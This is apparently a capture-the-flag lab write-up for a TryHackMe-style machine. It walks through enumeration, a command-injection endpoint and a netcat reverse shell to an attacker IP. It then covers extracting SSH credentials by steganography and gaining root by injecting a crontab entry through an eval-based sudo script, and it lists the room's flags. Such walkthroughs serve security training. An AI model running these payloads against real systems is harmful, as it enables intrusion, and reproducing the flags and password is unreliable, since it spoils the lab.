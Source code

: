 ### Ports
21 
80

-> Nothing Intresting

### DirEnum

-> /assets/index.php   _it grabbed my attention_

-> /assets/index.php?cmd=<command/>
_or_
/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir

this endpoint i found using dirsearch 

location : _/usr/lib/python3/dist-packages/dirsearch/db/dicc.txt_

### Initial Access

payload used : `busybox nc 10.17.127.143 9001 -e sh`

url :  _/assets/index.php?cmd=_`busybox nc 10.17.127.143 9001 -e sh`

got reverse shell  : www-data

### www-data -- deku User

1. Found a  : _/var/www/html/assets/images/oneforall.jpg_
2. transferred to attacker machine , analyzed and see it wasn't a jpg file 
3. used magicbytes tool to fix it's magic byte to make it a .jpg file
	1. github : https://github.com/Haxrein/MagicBytes
	2. `python3 magicbytes.py -i $dir/oneforall.jpg -m jpg`
4. jpg file was corrected and got the actual image

### Steganography

1. `steghide extract -sf <filename>`
2. passphrase was found : _/var/www/Hidden-content/passphrase.txt_
3. found the ssh creds for user _deku_
4. **deku**:**One?For?All_!!one1/A**

### Deku - Root

1. sudo -l 
```
User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

2. feedbask.sh was using eval function 
3. `sudo ./feedback.sh`
4. entered : "* * * * * root cat /root/root.txt > /tmp/flag.txt" > /etc/crontab
5. this job was appended to /etc/crontab
6. & got root.txt in /tmp/flag.txt

## Flags

USER : THM{W3lC0m3_D3kU_1A_0n3f0rAll??}
ROOT : THM{Y0U_4r3_7h3_NUm83r_1_H3r0}